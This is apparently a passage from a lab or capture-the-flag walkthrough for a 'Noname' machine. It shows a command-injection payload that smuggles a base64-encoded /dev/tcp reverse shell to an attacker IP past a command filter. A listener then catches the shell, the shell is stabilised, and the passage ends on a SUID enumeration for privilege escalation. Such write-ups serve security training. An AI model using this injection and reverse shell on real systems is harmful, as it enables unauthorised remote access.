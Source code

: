 
some commands are blocked, let's try encode our payload in base64 to bypass restrictions.

reverse shell `sh -i >& /dev/tcp/192.168.49.95/1337 0>&1`

encoded payload

![image](https://user-images.githubusercontent.com/87468669/195770516-02254b69-699a-4351-b628-f736e9c702e0.png)

reverse shell payload 

```
127.0.0.1 | echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40OS45NS8xMzM3IDA+JjE= | base64 -d | bash
```

ncat listener ready

![image](https://user-images.githubusercontent.com/87468669/195769640-b4f23cb7-33cc-46c4-8f8e-c7a3b0ccb15a.png)

inject our payload 

![image](https://user-images.githubusercontent.com/87468669/195770811-468cd858-27ce-474c-aa7c-b8bcc945482e.png)

check oue ncat listener we got a shell

![image](https://user-images.githubusercontent.com/87468669/195770955-cc4f1193-782c-4944-a399-15995cac6f2c.png)

Let's stabilize the shell

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ nc -lnvp 1337                                      
listening on [any] 1337 ...
connect to [192.168.49.95] from (UNKNOWN) [192.168.95.15] 37608
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@haclabs:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 1337
                                                                                                                                                                      
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ stty raw -echo;fg                
[1]  + continued  nc -lnvp 1337
                               export TERM=xterm
www-data@haclabs:/var/www/html$ 
www-data@haclabs:/var/www/html$ 

```

![image](https://user-images.githubusercontent.com/87468669/195771191-58aca499-91c7-4897-8372-5e03e2cb908f.png)

We have a stable shell, let's escalate privs to root. First let's check for suid using command `find / -perm -u=s -type f 2>/dev/null`

```
www-data@haclabs:/var/www/html$ find / -perm -u=s -type f 2>/dev/null                                                                                                 
/usr/lib/snapd/snap-confine                                                                                                                                 
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper 
/usr/lib/policykit-1/polkit-agent-helper-1 
/usr/sbin/pppd                  
/usr/bin/pkexec 
/usr/bin/find 
/usr/bin/gpasswd 
/usr/bin/chfn
/usr/bin/chsh 
/usr/bin/arping 
```
